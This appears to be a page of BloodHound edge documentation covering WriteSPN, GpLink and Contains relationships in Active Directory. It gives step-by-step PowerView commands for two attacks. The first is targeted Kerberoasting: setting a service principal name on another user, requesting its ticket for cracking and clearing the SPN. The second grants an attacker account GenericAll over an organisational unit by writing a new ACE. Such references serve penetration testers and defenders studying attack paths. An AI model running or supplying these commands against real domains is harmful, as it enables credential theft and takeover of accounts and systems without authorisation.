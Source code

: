 ## WriteSPN
The ability to write directly to the servicePrincipalNames attribute on a user object.
This can be done with the help of Powerview:

```
PS> $SecPassword = ConvertTo-SecureString '<attackerPassword>' -AsPlainText -Force
PS> $Cred = New-Object System.Management.Automation.PSCredential('<domain>\\<attackerUser>', $SecPassword)
PS> Set-DomainObject -Credential $Cred -Identity <targetAccount> -SET @{serviceprincipalname='<service>/<hostname>'}
PS> Get-DomainSPNTicket -Credential $Cred <targetAccount> | fl
        PS> Set-DomainObject -Credential $Cred -Identity <targetAccount> -Clear serviceprincipalname
```


## GpLink
The edge indicates that the source node (GPO) is linked to the target node (OU or domain).
A dashed edge means that the GPO is not enforced.

## Contains
This edge indicates that the target node (user, group or computer) is contained in the source node (Organizational Unit).
If the edge is dashed, the OU blocks inheritance for GPOs that are not enforced.
If a GPO is linked to an OU, this GPO applies to all objects contained in the OU.
If you have control over an OU, you can add new ACEs to the OU.
To exploit this edge, Powerview can be used to add, for example, the GenericAll permission to the OU.
The ObjectGUID of the OU can be taken directly from Bloodhound.
First all GUIDs are stored in a variable:

```
PS> $Guids = Get-DomainGUIDMap
PS> $AllObjectsPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'All'} | select -ExpandProperty name
```

Then a new ACE is created, which gives the attacker account full control over the OU:

```
PS> $ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity '<attackerUser>' -Right GenericAll -AccessControlType Allow -InheritanceType All -InheritedObjectType $AllObjectsPropertyGuid
```

The new ACE is then applied to the OU:

```
PS> $OU = Get-DomainOU -Raw ("<ouGuid>")
PS> $DsEntry = $OU.GetDirectoryEntry()
PS> $dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
PS> $dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
PS> $dsEntry.PsBase.CommitChanges()
```
